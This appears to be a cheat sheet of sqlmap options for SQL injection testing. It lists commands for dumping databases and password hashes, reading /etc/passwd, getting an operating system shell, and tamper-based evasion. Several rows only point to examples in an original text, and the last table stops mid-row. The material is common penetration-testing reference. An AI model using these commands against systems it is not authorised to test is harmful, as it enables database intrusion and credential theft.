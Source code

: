 # SQLMAP

| Category                          | Details / Commands                                          |
|-----------------------------------|-------------------------------------------------------------|
| **Basic arguments for SQLmap**    |                                                             |
| Generic                           | -u "\<URL\>"<br>-p "\<PARAM TO TEST\>"<br>--user-agent=SQLMAP<br>--random-agent<br>--threads=10<br>--risk=3 #MAX<br>--level=5 #MAX<br>--dbms="\<KNOWN DB TECH\>"<br>--os="\<OS\>"<br>--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")<br>--batch #Non interactive mode<br>--auth-type="\<AUTH\>" #HTTP authentication type<br>--auth-cred="\<AUTH\>" #HTTP authentication credentials<br>--proxy=http://127.0.0.1:8080<br>--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques |
| Retrieve Information              |                                                             |
| Internal                          | --current-user #Get current user<br>--is-dba #Check if current user is Admin<br>--hostname #Get hostname<br>--users #Get usernames od DB<br>--passwords #Get passwords of users in DB<br>--privileges #Get privileges |
| DB data                           | --all #Retrieve everything<br>--dump #Dump DBMS database table entries<br>--dbs #Names of the available databases<br>--tables #Tables of a database ( -D \<DB NAME\> )<br>--columns #Columns of a table  ( -D \<DB NAME\> -T \<TABLE NAME\> )<br>-D \<DB NAME\> -T \<TABLE NAME\> -C \<COLUMN NAME\> #Dump column |
| Injection place                   |                                                             |
| From Burp/ZAP capture             | Capture the request and create a req.txt file<br>sqlmap -r req.txt --current-user |
| GET Request Injection             | sqlmap -u "http://example.com/?id=1" -p id<br>sqlmap -u "http://example.com/?id=\*" -p id |
| POST Request Injection            | sqlmap -u "http://example.com" --data "username=\*&password=\*" |
| Injections in Headers & Methods   | --cookie, --headers, --method (examples provided in original text) |
| Indicate string when successful   | --string="string_showed_when_TRUE"                           |
| Eval                               | (Example provided in original text)                          |
| Shell                              | --os-cmd, --os-shell, --os-pwn (examples provided)           |
| Read File                          | --file-read=/etc/passwd                                      |
| Crawl and auto-exploit            | (Command provided in original text)                          |
| Second Order Injection            | (Examples provided in original text)                         |
| Customizing Injection             | --suffix, --prefix (examples provided)                       |
| Help finding boolean injection    | --not-string (example provided)                              |
| Tamper                             | --tamper (list of tampers provided in original text)         |


| Command                          | Description                                                  |
|----------------------------------|--------------------------------------------------------------|
| **General Options**              |                                                              |
| -h, --help                       | Show the basic help message and exit                         |
| -u URL, --url=URL                | Target URL (e.g. "http://www.site.com/vuln.php?id=1")        |
| -v VERBOSE                       | Verbosity level: 0-6 (default 1)                             |
| **Request**                      |                                                              |
| --data=DATA                      | Data string to be sent through POST                          |
| --cookie=COOKIE                  | HTTP Cookie header                                           |
| --random-agent                   | Use randomly selected HTTP User-Agent header                 |
| --proxy=PROXY                    | Use a proxy to connect to the target URL                     |
| --headers=HEADERS                | Extra headers (e.g. "X-Forwarded-For: 127.0.0.1")            |
| **Injection Points**             |                                                              |
| -p TESTPARAMETER                 | Testable parameter(s)                                        |
| --level=LEVEL                    | Level of tests to perform (1-5, default 1)                   |
| --risk=RISK                      | Risk of tests to perform (0-3, default 1)                    |
| **Detection**                    |                                                              |
| --string=STRING                  | String to match when query is true                           |
| --regexp=REGEXP                  | Regexp to match when query is true                           |
| --dbms=DBMS                      | Force back-end DBMS to provided value                        |
| --os=OS                          | Force back-end DBMS operating system to provided value       |
| **Techniques**                   |                                                              |
| --technique=TECH                 | SQL injection techniques to use (default "BEUSTQ")           |
| **Enumeration**                  |                                                              |
| --dbs                            | Enumerate DBMS databases                                     |
| --tables                         | Enumerate DBMS database tables                               |
| --columns                        | Enumerate DBMS database table columns                        |
| --schema                         | Enumerate DBMS schema                                        |
| --current-user                   | Enumerate DBMS current user                                  |
| --current-db                     | Enumerate DBMS current database                              |
| --passwords                      | Enumerate DBMS users password hashes                         |
| --dump                           | Dump DBMS database table entries                             |
| --dump-all                       | Dump all DBMS databases tables entries                       |
| --search                         | Search column(s), table(s) and/or database name(s)           |
| **File System Access**           |                                                              |
| --file-read=RFILE                | Read a file from the back-end DBMS file system               |
| --file-write=WFILE               | Write a local file on the back-end DBMS file system          |
| **Operating System Access**      |                                                              |
| --os-cmd=OSCMD                   | Execute an operating system command                          |
| --os-shell                       | Prompt for an interactive operating system shell             |
| --os-pwn                         | Prompt for an out-of-band shell, meterpreter or VNC          |
| **Miscellaneous**                |                                                              |
| --batch                          | Never ask for user input, use the default behavior           |
| --tamper=TAMPER                  | Use given script(s) for tampering injection
